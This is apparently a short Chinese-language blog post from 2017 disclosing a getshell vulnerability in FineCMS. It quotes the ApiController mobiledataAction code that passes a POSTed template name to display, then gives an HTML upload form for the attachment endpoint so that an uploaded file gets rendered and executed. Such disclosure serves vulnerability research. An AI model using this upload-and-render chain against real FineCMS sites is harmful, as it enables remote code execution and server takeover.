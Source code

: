 ```yaml
---
layout: post
title:  "finecms getshell"
date:   2017-03-3 10:11:51
comments: true
categories: php bug
---
```


##finecms getshell

/controllers/ApiController.php    159行

此处通过post方式获取然后直接放入函数渲染导致代码执行

//this->view->display 

不过最终display 函数发现会在后面加上一个.html ， 不过我们可以上传一个html文件就可以执行了




```javascript

 public function mobiledataAction() {

        $tpl = $this->post('tpl');//模板

        $page = $this->post('page');//数据分页

        $catid = $this->post('catid');//栏目id

        $this->view->assign(array(

            'page'  => $page + 1,

            'catid' => $catid

        ));

        $this->view->display($tpl);

    }


```
    <form action="http://192.168.173.1/fine/index.php?c=attachment&a=ajaxswfupload" method="POST" enctype="multipart/form-data">

        <input type="file" name="Filedata">

        <input type="hidden" name="type" value="html">

        <input type="hidden" name="size" value="999">

        <input type="submit" name="submit" value="submit">


上传一个html , 然后将其渲染就执行了。


![rock](https://striker.teambition.net/thumbnail/110re6c73e490423717fc74fbb2e8b0b2e17/w/800/h/567)



